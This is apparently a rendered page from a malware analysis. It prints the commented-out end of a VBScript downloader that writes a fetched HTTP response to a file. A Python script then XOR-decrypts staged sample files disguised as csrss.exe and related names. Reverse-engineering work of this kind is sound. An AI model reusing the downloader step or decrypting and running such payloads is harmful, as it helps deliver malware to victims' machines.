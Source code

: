 ```
#         objStream.Open
#         objStream.Type = 1
#         objStream.Write objHTTP.ResponseBody
#         objStream.SaveToFile path, 2      
#         objStream.Close
#     End If
#     Set objStream = Nothing
# End Sub
```

Download fileUrl and decrypt

```
# XOR Decryption Script
# Purpose: Decrypt files using the provided XOR key without executing any malicious actions.

import os

def xor_decrypt(file_path, key_path, output_path):
    """
    Decrypt a file using the XOR key.
    :param file_path: Path to the encrypted file.
    :param key_path: Path to the XOR key file.
    :param output_path: Path to save the decrypted file.
    """
    try:
        with open(key_path, 'rb') as key_file:
            key = key_file.read()

        with open(file_path, 'rb') as encrypted_file:
            file_content = bytearray(encrypted_file.read())

        key_length = len(key)
        for i in range(len(file_content)):
            file_content[i] ^= key[i % key_length]

        with open(output_path, 'wb') as decrypted_file:
            decrypted_file.write(file_content)

        print(f"Decrypted {file_path} to {output_path}")

    except Exception as e:
        print(f"Error decrypting {file_path}: {e}")

# Paths to the files
files_to_decrypt = [
    "csrss.exe",
    "csrss.exe.config",
    "csrss.dll",
    "wanted.pdf",
]

key_path = "csrss.dll"  # Path to the XOR key file
output_directory = "\\decrypted_files"

# Create the output directory if it doesn't exist
os.makedirs(output_directory, exist_ok=True)

# Decrypt the files
for file_path in files_to_decrypt:
    file_name = os.path.basename(file_path)
    output_path = os.path.join(output_directory, f"decrypted_{file_name}")
    xor_decrypt(file_path, key_path, output_path)

```